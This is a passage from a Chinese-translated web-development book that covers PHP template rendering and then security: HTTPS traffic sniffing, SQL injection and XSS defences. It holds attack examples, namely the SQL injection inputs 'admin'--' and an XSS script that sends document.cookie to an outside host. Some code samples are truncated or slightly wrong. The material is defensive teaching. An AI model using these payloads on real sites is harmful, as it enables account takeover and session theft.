这种结构依赖于管理模板并为给定输出模式进行渲染的每个对象都使用通用接口。通过这种方式设计架构，Web 应用程序的任何部分都可以支持输出到其他格式，而无需更改任何组件的逻辑。`View` 类实现了前一节关于控制器的 `RegistrationController` 类中使用的抽象方法：

238 第 7 章 服务器端应用程序架构



图 7.1 应用于模板引擎的工厂模式数据流图。

```php
class View {
    public static $METHOD_KEY = 'method';
    public static $METHOD_JSON = 'json';
    public static $METHOD_XHTML = 'xhtml';
    public static $METHOD_XML = 'xml';
    protected static $loaded = array();

    /**
     * 从请求中提取渲染引擎键的抽象方法
     */
    public static function getMethodFromRequest($request) {
        return (isset($request[self::METHOD_KEY]))
            ? $request[self::METHOD_KEY] : self::METHOD_XHTML;
    }

    /**
     * 返回给定键的渲染引擎实例，
     * 如果请求的引擎不存在，则默认使用 XHTML
     */
    public static function getRenderingEngine($method) {
        global $views;

        if (self::loadRenderingEngine($method)) {
            return new $views[$method]['class']($request);
        } else if (self::loadRenderingEngine(self::$METHOD_XHTML)) {
            return new $views[self::$METHOD_XHTML]['class']($request);
        }
        throw new Exception('Failed to load a rendering engine');
    }

    /**
     * 加载给定键对应的适当渲染引擎
     */
    protected static function loadRenderingEngine($key) {
        global $views;

        // 是否已经尝试加载过？
        if (isset(self::$loaded[$key])) {
            return self::$loaded[$key];
        }

        // 否则，检查文件是否存在
        if (isset($views[$key])) {
            $path = 'views' . DIRECTORY_SEPARATOR
                . $views[$key]['filename'] . '.php';
            // 并包含它
            if (file_exists($path)
                && is_readable($path) && include $path) {
                // 设置一个标志，指示此操作是否成功，
                // 而不是在下次请求此特定视图时
                // 重新执行所有这些步骤
                return self::$loaded[$key]
                    = class_exists($views[$key]['class']);
            }
        }

        // 未找到或无法引用，因此返回 false
        return false;
    }
}
```

这个工厂只提供两个方法作为公共对象接口；第三个 protected 方法的存在仅为了避免在 `View::getRenderingEngine()` 方法中重复代码。任何控制器都可以通过简单地调用 `View::getRenderingEngine(View::getMethodFromRequest($this->raw_get));` 来支持多种输出方法，以实例化其所需的渲染引擎。

这里的每个渲染引擎都将扩展 `RenderingEngine` 对象，该对象在前面的 View 部分中已展示。下面显示的 `XHTMLRenderingEngine` 扩展了 `RenderingEngine` 类，该类已经实现了本应用程序中所有渲染引擎使用的通用对象变量和方法，使得 XHTML 特定的引擎只需实现 XHTML 输出所需的输出内容：

```php
class XHTMLRenderingEngine extends RenderingEngine {
    protected $headers = array(
        'Content-Type' => 'application/xml+xhtml'
    );

    /**
     * 为不支持该类型的应用程序重写此方法以发送 text/html
     */
    protected function sendHeaders() {
        global $controller;
        $accept = $controller->getHeader('Accept');
        if (!$accept
```

```html
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en">
<head>
<title>用户注册</title>
<link rel="stylesheet" type="text/css" href="style.css" />
<script type="text/javascript" src="../includes/main.lib.js"></script>
<script type="text/javascript" src="../includes/ajax.lib.js"></script>
<script type="text/javascript" src="../includes/effects.lib.js"></script>
<script type="text/javascript" src="controllers/default/javascripts/default.js"></script>
</head>
<body>
<h1>一个简单注册 <acronym title="用户界面">UI</acronym> 的示例</h1>
<div class="demo">
    <ol id="registration_tabs" class="navigation_tabs">
        <li><?php if ($step == 1) { ?> class="selected"<?php } else if ($step > 1) { ?> class="completed"<?php } ?>>
            <a href="./?step=1">账户</a>
            <span class="status">
                <?php if ($step == 1) {
                    echo '进行中';
                } else if ($step > 1) {
                    echo '已完成';
                } ?>
            </span>
        </li>
        <li><?php if ($step == 2) { ?> class="selected"<?php } else if ($step > 2) { ?> class="completed"<?php } ?>>
            <a href="./?step=2">个人资料</a>
            <span class="status">
                <?php if ($step < 2) {
                    echo '未完成';
                } else if ($step == 2) {
                    echo '进行中';
                } else if ($step > 2) {
                    echo '已完成';
                } ?>
            </span>
        </li>
        <li><?php if ($step == 3) { ?> class="selected"<?php } ?>>
            <a href="./?step=3">确认</a>
            <span class="status">
                <?php if ($step < 3) {
                    echo '未完成';
                } else if ($step == 3) {
                    echo '进行中';
                } else if ($step > 3) {
                    echo '已完成';
                } ?>
            </span>
        </li>
    </ol>
    <?php
    if ($step == 3) {
        include 'step3.php';
    } else if ($step == 2) {
        include 'step2.php';
    } else {
        include 'step1.php';
    }
    ?>
</div>
</body>
</html>
```

用于 Ajax 响应的模板内容更少，因为它们不包含任何格式，仅作为服务器端应用程序的信使。根据应用程序使用 XML 还是 JSON，它将使用以下两个模板之一：

```php
<?php
global $messenger;
$messages = $messenger->getQueue();

echo "[\n";
for ($i = 0; $i < count($messages); $i++) {
    if ($i > 0) {
        echo "\n,";
    }
    echo '{"type":"',
        $this->escape($messages[$i]->type),
        '","',
        $this->escape($messages[$i]->content),
        '"}';
}
echo "\n]";
?>
```

JSON 模板将整个模板内容通过 PHP 的 `echo` 语句打印出来，因为 JSON 格式包含的字符很少，如果试图将 JSON 与 PHP 输出内容分开，只会使这个模板更难阅读和维护：

```php
<?php
global $messenger;
$messages = $messenger->getQueue();
?><!xml version="1.0"?>
<messages>
	<?php for ($i = 0; $i < count($messages); $i++) { ?>
	<message type="<?php echo $this->escape($messages[$i]->type); ?>">
		<?php echo $this->escape($messages[$i]->content); ?>
	</message>
	<?php } ?>
</messages>
```

然而，XML 模板涉及更多标记。虽然它仍然因为 PHP 标签而显得有些杂乱，但保持了可读性。JSON 和 XML 输出都只会在客户端应用程序的 JavaScript 消费时才会渲染，因此在此示例中不需要控制器提供任何额外的逻辑或数据。尽管如此，向此输出添加数据不会给模板或模板引擎增加任何负担，只需要控制器具备处理必要逻辑的能力，以便在渲染前检索数据并将其分配给模板引擎。


# 第8章：保持Web应用程序安全

## 本章内容

- 8.1 HTTPS 244
- 8.2 SQL注入 247
- 8.3 XSS 252
- 8.4 CSRF 258
- 8.5 不要信任用户 265
- 8.6 不要信任服务器 266

许多人目前对基于Ajax的Web应用程序存在一种误解，认为其本质上缺乏安全性。虽然这种看法更多源于开发者对技术的误解，而非严肃研究，但开发者需要确保他们不会在应用程序中留下可能被忽视的安全漏洞；这样做会无意中助长这种错误观念。

在Ajax驱动的应用程序中，唯一的新技术体现在`XMLHttpRequest`对象上，该对象目前只能执行所有浏览器都能执行的请求，但限制是只能向同一域名发起请求。换句话说，虽然浏览器可以向任何指定的域名发起请求，但`XMLHttpRequest`对象无法执行跨域请求。

与Ajax驱动的Web应用程序开发相关的最大安全考量是，开发者在编写代码时必须保持谨慎心态。仅仅因为用户不需要直接与向服务器发送数据的JavaScript对象交互，并不意味着他们永远不会有此需求。像Greasemonkey这样的工具使得用户脚本得以普及，甚至吸引了那些没有任何JavaScript知识的用户，这些用户可以利用这些抽象化的对象来实现开发者从未意图提供的、有时甚至危险的功能。

Ajax并未在Web开发中引入任何新的安全漏洞，但它提高了风险门槛，并为更复杂的攻击创造了环境。通过将更多服务器端应用程序暴露给客户端脚本，开发者扩大了攻击者可利用的攻击面。相比功能较少的动态Web应用程序，涉及更多“活动组件”会增加犯错的可能性。本章阐述的实践将最大限度地降低这种风险。

## 8.1 HTTPS

在任何存在流量嗅探风险的Web应用程序中，使用HTTPS比任何其他预防措施都更有效。初始握手后，双向流量都会被加密发送，破解或绕过它的难度远大于明文传输。HTTPS无法防止来自当前用户的攻击、XSS（跨站脚本）或CSRF（跨站请求伪造），但它确实能防止私有信息泄露和会话窃取。虽然HTTPS自身也存在漏洞，就像任何软件一样，但与明文发送数据相比，它已被证明是安全性的巨大提升。

### 8.1.1 为什么要使用HTTPS？

以下是一个明文HTTP的示例，使用tcpflow（www.circlemud.org/~jelson/software/tcpflow，一个易于使用的TCP数据捕获工具）输出显示了发送到frozen-o.com（注意明文显示的cookie）的请求头和响应头。由于这种通信在往返服务器的过程中会经过多个路由器，因此很容易被中间任何人查看和记录，甚至只是在咖啡馆嗅探无线流量的人。

以下内容显示了从Firefox发送的请求。输出的第一行还包括客户端（192.168.2.106:62055，这是本地网络内部地址）和请求主机（24.153.157.46:80）的IP地址和端口号：

```
192.168.002.106.62055-024.153.157.046.00080: GET /css/ HTTP/1.1
Host: www.frozen-o.com
User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X; en-US; rv:1.8.1.3) Gecko/20070309 Firefox/2.0.0.3
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: en-us,en;q=0.7,fr;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: UTF-8,*
Keep-Alive: 300
Connection: keep-alive
Referer: http://www.frozen-o.com/
Cookie: style=graphic
```

以下内容显示了服务器返回给浏览器的响应头。注意`Set-Cookie`头以明文完整显示：

```
024.153.157.046.00080-192.168.002.106.62055: HTTP/1.1 200 OK
Date: Fri, 23 Mar 2007 03:15:39 GMT
Server: Apache
Set-Cookie: style=graphic; expires=Sat, 22-Mar-2008 03:15:39 GMT; path=/
Content-Length: 2591
Keep-Alive: timeout=15, max=100
Connection: Keep-Alive
Content-Type: text/html
```

> 一个很好的例子可以说明为什么Web应用程序应该在登录时重新生成会话ID令牌：运行`tcpflow -i en0 -c port 80 | grep 'Set-Cookie:'`，然后访问一些银行或在线支付网站。它们大多数会设置一个cookie来存储语言设置或跟踪您的浏览行为以收集指标。然而，如果机构在登录时不重新生成新的会话ID令牌（并假设他们没有采取其他预防措施，如将会话与IP地址绑定），任何窃取到初始明文cookie的人都可以使用该cookie，而无需身份验证。

由于浏览器以与GET相同的编码方式发送POST数据（例如登录表单），因此URL编码的值也会以明文形式出现。以下XHTML表单

```html
<form action="login.php" method="post">
    <label for="username">
        Username
        <input type="text" name="username" id="username" tabindex="1" />
    </label>
    <label for="password">
        Password
        <input type="text" name="password" id="password" tabindex="2" />
    </label>
    <input type="submit" name="submit" id="submit" value="Login" tabindex="3" />
</form>
```

以及相应的提交过程说明了有人从流量中提取凭证是多么容易（为突出显示相关已删除之前示例的重复头信息）：

```
GET /login.php HTTP/1.1
Host: www.frozen-o.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

username=wagstaff&password=swordfish&submit=Login
```


### 8.1.2 安全与性能

在牢记使用 SSL 的所有安全原因的同时，将所有 HTTP 流量通过 HTTPS 传输可能会对性能产生相当大的负面影响。不仅所有流量现在都需要通过 Web 应用程序服务器端进行加密，客户端还需要消耗资源来解密每个响应。这给服务器（开发者对其有一定控制权）和客户端（开发者对其控制力非常有限）都带来了相对繁重的计算任务。

导致性能损失的另一个因素是缓存的缺失；为了安全地支持 SSL 上的站点，浏览器不会缓存任何内容，因为那会导致未加密的内容被写入硬盘。这种行为引入了另一个严重的性能打击，因为大多数浏览器至少会缓存图像以及链接的 JavaScript 和 CSS 样式表。

这个问题引入了权衡成本与安全性的最突出例子之一。如果 Web 应用程序的内容或操作确实需要，那么对整个用户界面使用 HTTPS 可能完全合理。支持用户访问量大的 Web 应用程序所需的硬件成本（在没有任何客户端缓存的情况下）以及加密的额外成本，可能甚至不及应用程序通信未加密所造成的损失。

其他 Web 应用程序可能不需要整个界面都通过 HTTPS 发送，而只有认证过程需要以此方式保持安全；这种做法在当今的 Web 应用程序中非常常见。只要适当的会话处理保持不变，且信息泄露不构成任何威胁，选择性加密对大多数 Web 应用程序来说都完全可行。

## 8.2 SQL 注入

SQL 注入攻击利用了对数据库服务器支持的 SQL 格式的了解，来运行开发者本意并非要执行的 SQL 命令。这种攻击通过滥用未转义的字符串传递到 SQL 中的形式出现；这是通过滥用通常不包含任何类似 SQL 代码的 GET 或 POST 请求输入来完成的。这可能导致攻击者能够运行应用程序数据库用户权限范围内的任何 SQL 命令。攻击者可以使用 SQL 注入来检索账户信息、破坏数据，甚至在数据库提供方法并允许的情况下运行系统命令。

因此，广泛使用的网站或包含敏感信息的网站上的 SQL 注入漏洞往往会得到广泛报道，并尽可能快速地修补，有时甚至会导致决定关闭网站，直到开发者修补系统为止。面对如此高的风险，开发者必须尽可能多地防范这种攻击。

使用上一节关于明文登录中所示的请求，请求 `user name=wagstaff&password=swordfish&submit=Login` 很可能包含如下所示的查询（作为变量赋值准备运行），以对用户进行身份验证：

```
$query = "SELECT 'id', 'name' FROM 'users' WHERE 'login' = '"
. $username . "' AND 'password' = '" . $password_hash . "';
```

> 这里的查询使用了 `$password_hash` 变量而不是简单的密码，因为应用程序*绝不能*以明文形式存储密码。如果应用程序设计的某部分要求以明文形式存储密码，甚至是可逆字符串，那么该部分需要重新思考，甚至完全重新设计。此外，任何哈希处理都必须使用盐值。（盐值是传递给哈希算法的一个附加值，用于以一致的方式改变输出。）必须使用盐值以防止对哈希值本身进行暴力破解攻击，或者防止攻击者简单地在已知值数据库或彩虹表中查找哈希值。存在多个公共彩虹表，包括 http://md5.rednoize.com 和 http://us.md5.crysm.net，任何拥有浏览器的人都可以向数据库添加条目，并搜索特定哈希值的明文。

攻击者可以输入用户名 `admin'--`，然后在不猜测或暴力破解密码的情况下，以用户 `admin` 的身份通过身份验证，因为上述查询字符串求值后变为以下内容：

```
SELECT 'id', 'name' FROM 'users' WHERE 'login' = 'admin'--
AND 'password' = '54ef36ec71201fdf9d1423fd26f97f6b'
```

此查询随后会检索登录名为 `admin` 的用户的 `id` 和 `name`，而不管密码比较如何，密码比较现在位于注释开始之后，根本不会出现在 SQL 语句中。这确保了密码测试永远不会发生，更不用说影响是否对用户进行身份验证了。

### 8.2.1 不要使用魔术引号

PHP 最初试图通过引入魔术引号来解决 SQL 注入问题，当为全局请求变量启用时，它实际上会对每个传入的字符串运行 `addslashes()`，在 `$_GET`、`$_POST` 和 `$_COOKIE` 超全局变量中的所有字符串的每个单引号、双引号、反斜杠和 `NULL` 字节字符前插入一个反斜杠。这随后只会引起问题，原因有多个。首先，并非每个在 HTTP 请求中传递的字符串都用于 SQL 语句。其次，并非每个人都保持其 PHP 安装中的魔术引号启用；安装中的这种差异迫使任何拥有分布式应用程序的人检测设置并相应地更改其行为。第三，MySQL 之外的数据库被广泛使用；这些数据库各自具有完全不同的转义机制、引号要求和特殊字符。此外，任何查看上述 PHP 代码行的开发人员如何知道变量是否已经转义了引号？最后，`addslashes()` 甚至对于 MySQL 也无法充分防范所有 SQL 注入攻击，因为它不关注字符编码。<sup>1</sup>

由于魔术引号带来的重大复杂性，PHP 开发者已经弃用了它，PHP6 将不再提供此功能。此举应鼓励开发者在数据库级别而不是请求级别进行转义。通过这样做，正如上一段所暗示的，开发者可以更容易地验证 SQL 中使用的变量是否已正确转义。这也使得支持多个数据库引擎变得更容易，因为每个数据库都需要自己的转义过程。

### 8.2.2 过滤

开发人员当然可以在最初接受请求时进行过滤。因为大多数输入值都有预期的数据类型（从整数到原始文本的任何类型）需要从 HTTP 请求中提交的字符串中解析，所以接收此数据的初始代码可以过滤掉意外的值。因此，代码可以尝试不预先转义 `admin' OR '0' = '1`，而是移除任何不可接受的字符：

```
$clean = array();
if (ctype_alpha($_POST['username'])) {
    $clean['username'] = $_POST['username'];
}
$clean['password'] = $_POST['password'];
```

此 PHP 代码创建一个数组来存储所有过滤后的值，这样在代码本身中，你可以立即知道输入是否已经过过滤。特别是 `username` 值，只有当它包含字母时才能通过过滤器，`admin'--` 将会失败，因为它还包含一个撇号、一个空格和两个连字符。

<sup>1</sup> 有关为何开发者不应使用魔术引号的更多信息，请参见 http://php.net/magic_quotes。

> 虽然 `username` 值经过了过滤以确保它只包含单词字符，但 `password` 值仍然未经过滤，因为它应该接受任何字符。此外，尽管实际使用的数据采用实际输入的哈希形式，但此后处理与过滤无关，它需要与其他身份验证管理逻辑保持一致。

由于应用程序很可能没有登录名为 `null` 的用户，尤其是没有那个特定密码的用户，此过滤已有效阻止了 SQL 注入攻击。然而，过滤仍然存在一个单点故障，而且它也存在与之前相同的问题，即无法一目了然地判断这些值是否可以安全地放入 SQL 字符串中。仅当输入值具有严格要求（恰好也清理了 SQL 特定字符）时，单独过滤才起保护作用。

作为此缺点的一个例子，以下 SQL 通过匹配姓名来搜索所有用户，这必须接受各种字符以支持带连字符的姓名、带撇号的姓名以及广泛的国际变体：

```
$query = 'SELECT `id`, `name` from `users`
WHERE `name` = \'' . $name . '\'`;
```

因为此值不能从字符串中移除字符（除了可能将字符串截断为数据库字段允许的最大字符数），所以变量在用于查询之前必须正确转义。为此，对于 MySQL，必须使用 `mysqli_real_escape_string()` 函数。（如果 PHP 安装没有 MySQL Improved 扩展可用，则使用 `mysql_real_escape_string()` 函数。）`mysql_real_escape_string()` 库函数是在发现 `mysql_escape_string()` 未能防止某些使用其他字符编码的攻击后出现的，这些攻击旨在欺骗函数允许未转义的单引号。因此，前面的示例代码也必须包含一个转义调用，例如：

```
// 使用当前连接的字符集转义 $name 变量
$escaped['name'] = mysqli_real_escape_string($name, $connection);
$query = 'SELECT `id`, `name` from `users` WHERE `name` = \'' . $escaped['name'] . '\'';
```


### 8.2.3 预处理语句

现在，转义操作直接在查询上方进行，任何处理此代码的开发人员都能看到变量将被安全地包含在 SQL 中。遗憾的是，并非所有数据库扩展都提供可以直接调用的函数来安全地转义特定字符集的字符串。然而，它们确实倾向于提供一种更可靠的方式来防止 SQL 注入，即通过预处理语句进行参数绑定。

虽然 MySQL 和 MySQLi 扩展确实提供了库函数来正确、安全地转义查询中使用的参数，但自 PHP 5.1 起，PDO（PHP 数据对象）库提供了迄今为止 PHP 中最易于使用的数据库访问抽象层。它能够利用持久连接、事务和参数绑定，甚至能为缺少此功能的数据库模拟参数绑定。

以下 PDO MySQL 使用示例包含了 PDO 的实例化，以展示连接方法（使用 DSN 而非主机名和数据库名作为参数），因为除 SQL 之外的所有代码都可用于当前支持的九种数据库引擎类型中的任何一种。与为每种数据库类型使用不同的库函数集相比，这种抽象将使支持多个数据库变得几乎微不足道；它还将使熟悉 PDO 的任何开发人员更容易阅读和维护代码：

```
$handle = new PDO('mysql:host=localhost;dbname=ajax');
$statement = $handle->prepare(
    'SELECT `id`, `name` FROM `users` WHERE `login` = ? AND `password` = ?'
);
$statement->execute(array($username, $password_hash));
if ($user = $statement->fetch(PDO::FETCH_ASSOC)) {
    echo $user['id'],"\t",$user['name'],"\n";
} else {
    echo "No user found.\n";
}
```

使用 PDO MySQL 时，查询仍然是特定于 MySQL 的，因为 PDO 不像真正的数据库抽象层那样工作，它不会修改查询以使查询可移植于不同的数据库服务器。然而，它确实为数据库提供了一个统一的接口，并通过使用预处理语句提供了一种可靠的方法来防止 SQL 注入攻击。

简而言之，要最有效地防止成功的 SQL 注入攻击，应根据所需数据类型过滤所有输入，并通过预处理语句的参数绑定来转义 SQL 语句中使用的所有参数；如果数据库不支持预处理语句，则使用特定于该数据库引擎的库内函数进行转义。使用 PDO 进行参数绑定提供了最佳解决方案，因为即使数据库碰巧不支持预处理语句，它也会为您正确转义所有值。

## 8.3 XSS

跨站脚本攻击与 SQL 注入具有相同的原理，因为它滥用未转义的值来执行原始开发人员未意图执行的语句（在这种情况下是标记或 JavaScript）。在实践中，主要区别之一在于 SQL 注入攻击（除非与 XSS、CSRF 或其他隐藏来源的方法结合）直接来自攻击者。XSS 攻击通常由受害者浏览器发送的数据或从存储源（如数据库）检索的数据组成，这些数据在显示时未能被正确转义；此漏洞允许攻击者编写的标记或脚本被评估执行。

考虑以下消息容器：

```
<div id="messages">
<?php
foreach ($messages as $message) {
    echo '<span class="message">' . $message . '</span>';
}
?>
</div>
```

尽管所有消息都来自应用程序，但这段代码为 XSS 攻击留下了一个巨大的漏洞。攻击者只需注意到从服务器返回的用户输入可能未被转义。像“The username "Bob's account" contains invalid characters”这样的消息，如果没有转义撇号，可能会促使攻击者尝试其他字符，例如“<”和“>”，以观察系统的反应。

### 8.3.1 标记转义

然而，XSS 漏洞并非仅来自表单提交。即使是像 404 错误处理程序这样看似无害的东西，也可能为攻击者提供必要的立足点，以经过身份验证的用户身份执行脚本。图像遍布重要网站，向一个访问量很大的网站发布图像几乎不需要什么努力或授权。因此，以下标记发布的图像将在每次被任何查看包含该图像页面的用户访问时，尝试进行 XSS 攻击：

```

```

这段标记，配合一个将请求（例如“The file `invalidurl<script>var i=new Image();i.src=’http://appropriation.frozen-o.com?c=’+ document.cookie;</script>` does not exist”）重复给用户的 404 处理程序，可能无法充分转义其输出以防止此类攻击。

为了转义输出，字符必须从构成字符串的字节转换为字符实体，以防止字符被解释为标记。PHP 提供了几个好的选项来实现这一点。第一个是 `htmlentities()`，它是 PHP 的标准函数，如下例所示，对恶意图像标记使用它：

```
$encoded_string = htmlentities(
    $string,
    ENT_QUOTES,
    'UTF-8'
);
```

它将返回一个字符串，其中所有 HTML 字符都被转换为它们等效的实体，可以安全地在包含其余标记的页面中渲染：

```
&lt;img
src=&quot;http://intranet.frozen-o.com/invalidurl%3Cscript%3Evar%20i%20new%20Image%28%29%3Bi.src%2D%27http%3A%2F%2Fappropriation.frozen-o.com%3Fc%2D%27%2Bdocument.cookie%3B%3C%2Fscript%2E&quot; /&gt;
```

另一种转义标记字符串的方法使用多字节字符串库的 `mb_encode_numericentity()` 将给定字符集的字符范围编码为其数字实体等效项，如下所示：

```
$convmap = array(0x0, 0x2FFFF, 0, 0xFFFF);
$encoded_string = mb_encode_numericentity($string, $convmap, 'UTF-8');
```

> `strip_tags()` 不仅在移除数据之前不进行验证（可能导致数据丢失），而且它也无法正确处理 UTF-8 字符集，这可能导致数据损坏并移除超过预期的内容。在调用 `htmlentities()` 时使用可选的字符集规范，可确保转义与页面输出的字符编码（在此例中为 UTF-8）匹配。如果最终页面输出使用其他字符编码，例如 ISO-8859-1 或 UTF-7，则转义*必须*也使用该编码。

这种方法几乎可以保证恶意载荷在 XHTML 页面中渲染时不会产生影响；然而，它将使攻击者试图做什么对管理员变得非常明显。使用 `mb_encode_numericentity()` 还有使用数字实体的额外好处，使其适用于为使用 XML 进行数据传输的 Ajax 调用转义输出。无论 PHP 安装环境是否提供多字节字符串扩展，将标记转义抽象到一个通用命名的函数（如下所示）中，可以在可用时提供支持完整实体翻译的简便方法（当多字节字符串扩展不可用时，代码可以回退到 `htmlentities()`）：

```
function escapeMarkup($string) {
    if (function_exists('mb_encode_numericentity')) {
        $convmap = array(0x0, 0x2FFFF, 0, 0xFFFF);
        return mb_encode_numericentity($string, $convmap, 'UTF-8');
    } else {
        return htmlentities($string, ENT_QUOTES, 'UTF-8');
    }
}
```


#### 8.3.1.1 从 JavaScript 中转义标记

由于 JavaScript 没有真正内置的函数来将整个字符串编码为数字实体，因此从 JavaScript 插入 DOM 的文本需要正确转义，这需要编写自定义函数。幸运的是，JavaScript 提供了非常方便的工具来编写这样一个函数：

```javascript
// This copies the string and would need modification to handle larger values.
function escapeHTML(output) {
    var escaped_output = '';
    var temp_char = null;
    for (var i = 0; i < output.length; i++) {
        temp_char = output.charCodeAt(i).toString(16).toUpperCase();
        if (temp_char.length == 2) {
            escaped_output += '&#x' + temp_char + ';';
        } else {
            escaped_output += '&#x0' + temp_char + ';';
        }
    }
    return escaped_output;
}
```

这会将 `<script>var i=new Image();i.src='http://appropriation.frozen-o. com?c='+document.cookie;</script>` 转换为以下内容：

```
&#x3C;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;&#x76;&#x61;&#x72;&#x20;&#x69;&#x3D;&#x6E;&#x65;&#x77;&#x20;&#x49;&#x6D;&#x61;&#x67;&#x65;&#x28;&#x29;&#x3B;&#x69;&#x2E;&#x73;&#x72;&#x63;&#x3D;&#x27;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x61;&#x70;&#x70;&#x72;&#x6F;&#x70;&#x72;&#x69;&#x61;&#x74;&#x69;&#x6F;&#x6E;&#x2E;&#x66;&#x72;&#x6F;&#x7A;&#x65;&#x6E;&#x2D;&#x6F;&#x2E;&#x20;&#x63;&#x6F;&#x6D;&#x3F;&#x63;&#x3D;&#x27;&#x2B;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x63;&#x6F;&#x6F;&#x6B;&#x69;&#x65;&#x3B;&#x3C;&#x2F;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;
```

前面的 XML 实体将简单而安全地将字符串渲染为转义的标记，而不是将其作为标记执行。当使用 JSON 进行数据传输时，使用 JavaScript 函数转义字符串比使用 PHP 函数更有意义，因为 PHP 字符串可以用 `preg_replace('/"/D', '\"', $json_output)` 转义，或在可用时使用 `json_encode()`。

除了转义输出之外，将 `innerHTML` 的使用切换到直接操作 DOM，使得攻击者成功实施 XSS 攻击变得更加困难。使用 `innerHTML` 确实可以很容易地将数据插入界面，但这样做实际上是在调用标记等效的 `eval()`。任何标记，无论是来自你的应用程序还是攻击者，都会被解释为标记。

这种做法可能看起来是将数据放入 DOM 的繁琐方式，对于更复杂的数据集进入更复杂的界面时，它可能会变得相当复杂。然而，通过尽可能将此过程抽象到可重用的组件中，它可以大大简化开发并提高代码可读性。

```javascript
/**
 * setElementText assumes, for the sake of using less lines
 * in this chapter, that any element passed to it will have
 * zero or one child elements.
 */
function setElementText(container, text) {
    // Flag element as aaa:live by using a global live_default variable
    // declared elsewhere on the page as "polite"
    var live = (arguments[2]) ? arguments[2] : live_default;
    container.setAttribute('aaa:live', live);
    // When the container already has a child node...
    if (container.firstChild) {
        // ...in the form of a text node, simply set the nodeValue
        if (container.firstChild.nodeType == 3) {
            container.firstChild.nodeValue = text;
        // ...otherwise, replace the node with a new text node
        } else {
            var new_text_node = document.createTextNode();
            new_text_node.nodeValue = text;
            container.replaceChild(new_text_node, container.firstChild);
        }
    // If no child node, append a new text node
    } else {
        var new_text_node = document.createTextNode();
        new_text_node.nodeValue = text;
        container.appendChild(new_text_node);
    }
}
```

> 负责原始 DOM 操作以替换或追加节点的函数和对象，也使得更容易使用抽象的无障碍方法来提醒用户 DOM 的变化；开发者可以通过使用 title 属性配合负 tabindex 来聚焦包含元素，或者通过根据 WAI-ARIA 设置 aaa:live 属性来实现这一点。

### 8.3.2 为 URL 转义

在渲染 URL 时，需要格外小心，因为 URL 中有效的字符仍可能导致 XML 错误。因此，使用 PHP 的 `rawurlencode()` 然后编码 XML 实体将确保标记渲染时没有错误或注入风险，同时 URL 的每个值也都能安全传递。

对于在 JavaScript 中转义 URL 参数，`encodeURIComponent()` 函数效果很好。即便如此，需要构建 URL 的函数在循环和编码每个参数时可能会变得相当混乱，将其抽象为全局可用的函数也会有所帮助。下面，`AjaxRequest` 类的 `urlEncodeObject()` 方法会根据数据类型转义输出，以确保其安全地包含在 URL 中：

```javascript
// Non-recursive serialization from object to
// url-encoded values
AjaxRequest.prototype.urlEncodeObject = function(obj) {
    var first = true;
    var string = '';
    var temp_key;
    var temp_obj;
    for (i in obj) {
        temp_key = encodeURIComponent(i);
        switch (typeof obj[i]) {
            case 'number':
                temp_obj = obj[i];
                break;
            case 'boolean':
                temp_obj = (obj[i]) ? 1 : 0;
                break;
            case 'undefined':
                temp_obj = '';
                break;
            default:
                temp_obj = encodeURIComponent(obj[i]);
                break;
        }
        if (first) {
            first = false;
            string += temp_key + '=' + temp_obj;
        } else {
            string += '&' + temp_key + '=' + temp_obj;
        }
    }
    return string;
}
```

每当将数据发送到某种形式的输出时，该输出周围的代码必须根据输出的给定上下文正确地转义数据。如果数据将在 URL 中显示，则必须进行 URL 转义。如果将在标记中显示，则必须转义标记实体。如果数据将在 URL 中显示，而该 URL 又显示在标记中，那么数据必须先进行 URL 转义，然后整个 URL 再进行标记实体转义。这确保了数据不会破坏渲染（以漏洞利用的形式），并且无论其在哪个上下文中显示，数据都将保持不变。

## 8.4 CSRF

